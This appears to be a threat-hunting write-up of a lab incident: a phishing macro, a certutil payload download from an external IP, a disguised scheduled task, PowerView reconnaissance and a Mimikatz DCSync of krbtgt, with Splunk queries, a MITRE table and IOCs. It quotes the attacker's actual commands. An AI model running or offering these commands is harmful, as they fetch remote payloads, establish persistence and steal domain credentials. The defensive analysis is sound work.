






---
## Overview

An employee opened a malicious Invoice document, enabling macros and triggering a full attack chain. Starting from an initial phishing foothold, the attacker used certutil to pull down a payload, established persistence via a scheduled task disguised as a Microsoft Teams update, performed AD reconnaissance with PowerView, then dumped domain credentials using Mimikatz DCSync targeting the krbtgt account.

---

## Investigation

### Initial Access — Invoice Phishing

Searching across all indexes for activity related to the Invoice document:

```zsh
index=* "invoice"
```
Sysmon logs show the Invoice document was opened from the Downloads directory, with a Trusted Documents registry entry confirming the user enabled macros. The file was downloaded from:
`139[.]59[.]21[.]147:8080`


### Payload Delivery — certutil Download

Following macro execution, the attacker used `certutil.exe` to pull down a secondary payload — a classic LOLBAS technique to bypass download restrictions:
```
cmd.exe /c certutil -urlcache -split -f "hxxp[://]24[.]199[.]117[.]142:1337/svchost.exe" "C:\Windows\Temp\svchost.exe"
````

The file was saved to `C:\Windows\Temp\svchost.exe` — masquerading as a legitimate Windows process name.

### Compromised User

All malicious activity traces back to domain user `CYBERRANGE\ricksanchez`.

### Persistence — Scheduled Task

Filtering Sysmon process creation events for ricksanchez and schtasks:

```bash
index=* User="CYBERRANGE\\ricksanchez" "schtasks.exe"
```

The attacker created a scheduled task set to run at logon, launching the previously dropped `svchost.exe` from Temp:
```
schtasks.exe /create /tn "Microsoft Teams Updater" /sc onlogon /tr C:\Windows\Temp\svchost.exe
````

Task name **Microsoft Teams Updater** — designed to blend in with legitimate Microsoft software. T1053.005.


### Reconnaissance — PowerView

Searching for PowerShell script execution under ricksanchez:

bash

```bash
index=* User="CYBERRANGE\\ricksanchez" ".ps1"
```

The attacker pulled PowerView directly from the PowerSploit GitHub repo using certutil:
```
certutil.exe -urlcache -f https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 PowerView.ps1
```

PowerView is the go-to AD enumeration script — used here to map the domain prior to credential dumping. T1059.001.


### Credential Dumping — Mimikatz DCSync

The same `.ps1` search surfaced Mimikatz execution. The attacker ran Invoke-Mimikatz with the DCSync module targeting the `krbtgt` account:
```
powershell.exe . .\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:CYBERRANGE.local /user:krbtgt"'
````

DCSync (T1003.006) impersonates a domain controller and requests password replication — dumping the krbtgt hash without ever touching LSASS directly. With krbtgt compromised, the attacker has everything needed for a Golden Ticket attack.



---

## MITRE ATT&CK

|Tactic|Technique|Description|
|---|---|---|
|Initial Access|T1566.001|Phishing — malicious Invoice document|
|Execution|T1059.001|PowerShell — macro execution, PowerView, Mimikatz|
|Defense Evasion|T1036.005|Masquerading — svchost.exe in C:\Windows\Temp|
|Defense Evasion|T1140|Deobfuscate/Decode — certutil -urlcache download|
|Persistence|T1053.005|Scheduled Task — Microsoft Teams Updater|
|Discovery|T1482|Domain Trust Discovery — PowerView|
|Discovery|T1069.002|Domain Groups — PowerView AD enumeration|
|Credential Access|T1003.006|DCSync — krbtgt hash via Mimikatz|
|Command & Control|T1105|Ingress Tool Transfer — certutil payload delivery|

## IOCs

|Type|Value|
|---|---|
|IP|139[.]59[.]21[.]147|
|IP|24[.]199[.]117[.]142|
|URL|hxxp[://]139[.]59[.]21[.]147:8080|
|URL|hxxp[://]24[.]199[.]117[.]142:1337/svchost.exe|
|File|C:\Windows\Temp\svchost.exe|
|File|C:\Windows\Temp\PowerView.ps1|
|File|C:\Windows\Temp\Invoke-Mimikatz.ps1|
|Scheduled Task|Microsoft Teams Updater|
|Domain User|CYBERRANGE\ricksanchez|


---


















